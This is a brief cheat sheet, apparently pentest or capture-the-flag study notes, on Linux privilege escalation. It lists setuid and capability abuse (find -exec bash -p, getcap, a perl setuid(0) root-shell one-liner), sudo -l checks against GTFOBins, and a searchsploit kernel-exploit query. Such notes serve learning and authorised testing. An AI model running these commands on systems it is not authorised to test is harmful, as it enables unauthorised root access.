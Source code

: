 ### Abusing Setuid Binaries and Capabilities

chmod u+s

find /home/joe/Desktop -exec "/usr/bin/bash" -p \;
search capabilities of file in linux - /usr/sbin/getcap -r / 2>/dev/null
search on gtfobins

perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

### Abusing Sudo

search for sudoers capability using sudo -l

search gtfobins and try

### Kernel Vulnerabilities

cat /etc/issue
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"